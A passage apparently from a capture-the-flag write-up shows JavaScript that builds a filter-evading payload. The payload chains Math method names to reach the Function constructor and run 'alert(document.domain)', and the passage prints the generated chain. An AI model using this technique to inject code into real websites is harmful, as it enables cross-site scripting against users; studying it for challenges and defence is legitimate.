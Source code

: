 ``` js
    }

    // if we can't, we use integer to make a string
    let mathResult = findTargetNumber(currentIndex, char.charCodeAt(0))
    mathResult.reverse() // remember to reverse cause the order
    for(let row of mathResult) {
      addFunction(row)
    }
    addFunction('Math.abs.name.constructor.fromCharCode')
    addFunction(`${arrName}.push`)
    currentIndex++
  }

  // add eval structure
  // generate space then trim
  let spaceResult = findTargetNumber(currentIndex, ' '.charCodeAt(0))
  spaceResult.reverse() // remember to reverse cause the order
  for(let row of spaceResult) {
    addFunction(row)
  }
  addFunction('Math.abs.name.constructor.fromCharCode')
  addFunction('Math.abs.name.constructor.prototype.trim.call')
  addFunction(`${arrName}.join`)
  addFunction('Math.abs.constructor')
  addFunction('Math.abs.constructor.prototype.call.call')

  return ans.reverse().join(',')
  //return codeResult

  function addFunction(name){
    ans.unshift(name)
    codeResult = `${name}(${codeResult})`
  }
}

console.log(buildExploit('Math.seeds', 'alert(document.domain)'))
```

The final result is:

``` js
Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.abs.name.at,Math.seeds.push,Math.clz32.name.at,Math.seeds.push,Math.LN2.valueOf,Math.exp.name.at,Math.seeds.push,Math.LN2.valueOf,Math.round.name.at,Math.seeds.push,Math.hypot.name.at,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.floor,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.cosh,Math.log,Math.cosh,Math.floor,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.push,Math.LN2.valueOf,Math.cos.name.at,Math.seeds.push,Math.E.valueOf,Math.imul.name.at,Math.seeds.push,Math.LN2.valueOf,Math.max.name.at,Math.seeds.push,Math.LN2.valueOf,Math.exp.name.at,Math.seeds.push,Math.E.valueOf,Math.min.name.at,Math.seeds.push,Math.LN2.valueOf,Math.tan.name.at,Math.seeds.push,Math.log2,Math.exp,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.clz32,Math.sqrt,Math.cosh,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.push,Math.LN2.valueOf,Math.max.name.at,Math.seeds.push,Math.LN2.valueOf,Math.abs.name.at,Math.seeds.push,Math.LN2.valueOf,Math.imul.name.at,Math.seeds.push,Math.E.valueOf,Math.min.name.at,Math.seeds.push,Math.acosh,Math.expm1,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.cos,Math.clz32,Math.abs.name.constructor.fromCharCode,Math.abs.name.constructor.prototype.trim.call,Math.seeds.join,Math.abs.constructor,Math.abs.constructor.prototype.call.call
```
